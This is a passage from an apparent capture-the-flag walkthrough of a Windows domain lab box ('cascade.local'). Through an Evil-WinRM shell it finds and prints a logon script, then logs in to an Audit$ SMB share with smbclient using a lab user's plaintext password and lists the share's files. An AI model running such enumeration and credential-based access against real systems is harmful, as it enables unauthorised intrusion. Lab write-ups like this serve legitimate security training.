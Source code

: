 ```
Global Group memberships     *Domain Users
The command completed successfully.
```

The user s.smith has a LogOn Script `MapAuditDrive.vbs`. Let's try to figure out where this script is located.
```
*Evil-WinRM* PS C:\> Get-ChildItem -Path C:\ -Filter MapAuditDrive.vbs -Recurse -ErrorAction SilentlyContinue -Force

    Directory: C:\Windows\SYSVOL\domain\scripts

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/15/2020   9:50 PM            258 MapAuditDrive.vbs

    Directory: C:\Windows\SYSVOL\sysvol\cascade.local\scripts

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/15/2020   9:50 PM            258 MapAuditDrive.vbs
```
The script is located at `C:\Windows\SYSVOL\domain\scripts`.

```
*Evil-WinRM* PS C:\> type C:\Windows\SYSVOL\domain\scripts\MapAuditDrive.vbs
'MapAuditDrive.vbs
Option Explicit
Dim oNetwork, strDriveLetter, strRemotePath
strDriveLetter = "F:"
strRemotePath = "\\CASC-DC1\Audit$"
Set oNetwork = CreateObject("WScript.Network")
oNetwork.MapNetworkDrive strDriveLetter, strRemotePath
WScript.Quit
```

###### `SMB Enumeration with user s.smith`
Seems like now we should try accessing the `Audit$` share with the user `s.smith` credentials. I should have done it earlier. Let's explore the `Audit$` Share.
```
# smbclient -U 'cascade.local\s.smith%sT333ve2' //10.10.10.182/Audit$
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jan 29 13:01:26 2020
  ..                                  D        0  Wed Jan 29 13:01:26 2020
  CascAudit.exe                      An    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020
```
